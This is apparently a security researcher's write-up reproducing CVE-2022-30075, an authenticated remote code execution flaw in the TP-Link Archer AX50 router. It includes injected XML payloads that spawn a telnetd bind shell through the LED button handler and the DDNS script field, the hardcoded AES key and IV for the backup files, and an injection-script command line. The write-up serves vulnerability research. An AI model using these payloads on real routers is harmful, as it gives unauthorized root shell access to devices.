

# description

Reproduce CVE-2022-30075.

# status

* [x] Root cause analysis

* [x] Patch script

* [ ] Reproduce (due to the restore function triggering nvram -> not emulate yet)

# root cause analysis

## press the LED button

The root cause lies in the backup & restore function of the web portal. Encrypted XML files within the backup contains various configurations.
Upon decrypion of `ori-backup-user-config.bin`, a child element is found, binding the LED button's function to `/lib/led_switch`. 

```xml
<button name="led_switch">
<action>pressed</action>
<button>ledswitch</button>
<handler>/lib/led_switch</handler>
</button>
```

This vulnerability can be exploited to spawn a bind shell with `telnetd`:

```xml
<button name="exploit">
<action>pressed</action>
<button>ledswitch</button>
<handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```

After repacking the modified configurations, the restore function can be used. Upon reboot, pressing the LED button will execute the injected command,
enabling a telnet connection to the router for shell access.

## auto trigger via DDNS

[Detecting WAN IP with script](https://openwrt.org/docs/guide-user/services/ddns/client#detecting_wan_ip_with_script)

The injected command can be automatically triggered without pressing the LED button by exploiting the DDNS function. 
This function is primarily designed to update the IP address across different networks and often includes the capability to execute scripts.

```xml
<ddns>
    <service name="dyndns">
        <enabled>off</enabled>
        <retry_times>5</retry_times>
        <force_unit>hours</force_unit>
        <ip_network>wan</ip_network>
        <service_name>dyndns.org</service_name>
        <ip_source>network</ip_source>
        <retry_interval>60</retry_interval>
        <retry_unit>seconds</retry_unit>
        <check_unit>hours</check_unit>
        <check_interval>1</check_interval>
        <force_interval>72</force_interval>
        <interface>wan</interface>
    </service>
</ddns>
```

Thankfully, the script is typically included in the backup XML, allowing for the placement of the injected command there.

```xml
<ddns>
    <service name="pwn">
        <enabled>on</enabled>
        <interface>internet</interface>
        <ip_source>script</ip_source>
        <ip_script>/usr/sbin/telnetd -l /bin/login.sh</ip_script>
        <check_interval>1</check_interval>
        <check_unit>hours</check_unit>
        <retry_interval>60</retry_interval>
        <retry_times>5</retry_times>
        <retry_unit>seconds</retry_unit>
        <force_interval>72</force_interval>
        <force_unit>hours</force_unit>
    </service>
</ddns>
```

## backup file 

Below is the structure of the backup file.



The AES mode used here is CBC with the following key and IV employed at all stage:

```
Key: 2EB38F7EC41D4B8E1422805BCD5F740BC3B95BE163E39D67579EB344427F7836
IV:  360028C9064242F81074F4C127D299F6
```

These can be easily retrieved by `strings squashfs-root/usr/lib/lua/luci/model/crypto.lua`.

# patch script

This script is used to inject a command as a DDNS service into the backup file.

```sh
./inject.py backup-Archer\ AX50-2024-04-19.bin '/usr/sbin/telnetd -l /bin/login.sh'
```

# refs

* [Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)](https://github.com/aaronsvk/CVE-2022-30075)
